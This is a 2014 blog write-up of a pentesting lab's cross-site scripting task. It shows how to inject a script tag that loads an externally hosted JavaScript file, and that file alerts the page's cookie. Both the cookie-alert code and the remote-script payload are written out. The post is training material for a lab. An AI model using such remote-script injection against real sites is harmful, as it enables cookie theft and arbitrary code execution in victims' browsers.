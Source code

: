 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-10-29 11:03:52+00:00
layout: post
slug: xss-including-external-js-file-js-pentesters-task-9-write
title: 'XSS - including external js file: JS for Pentesters task 9 write up'
wordpress_id: 313
categories:
- jsp
- javascript
- xss
- security-tube
summary: writeup for task-9 of the series JS for pentesters by security-tube - Including external JS
---
```


This challenge is a bit different from the ones that we did till now. Consider a case where you found out an XSS vulnerability but you can enter only limited number of characters through the XSS parameter but you need to do a lot more than that. What will you do ? A possible way is to add the script inside a file and try to inject that file via the xss. Let us see this with an example:

[JS for Pentesters task 9](http://pentesteracademylab.appspot.com/lab/webapp/jfp/9)

Our objective is to Include an **external JS file** into this page and Code inside that JS should pop the cookie inside an alert box.

So the first task is to write a .**js ** file and host it somewhere so that it can alert the cookie. The code for the same is:

{% highlight javascript lineos %}
    alert(document.cookie);
{% endhighlight %}

Please note that when you are writing JavaScript inside a file, it shouldn't be enclosed inside a `<script>` tag. So consider we created a file `cookie.js` which contains the code to alert the cookie. Now we should host the script somewhere so that it can be accessed via public URL. So I uploaded the script to my blog and tried to inject it to the challenge. The payload looks like this:

{% highlight html lineos %}
    <script src="http://security.securethelock.com/wp-content/uploads/2014/11/cookie.js"></script>
{% endhighlight %}

So as you can see, this challenge is fairly easy but it has I hope you learned a good lesson. What we did is very simple. First upload the JavaScript file to a site and get its absolute location. Then you can inject the file via XSS  by using src attribute, inside a `<script>` tag.

**Note:**

1) While playing with **XSS challenges**, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt XSS stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..
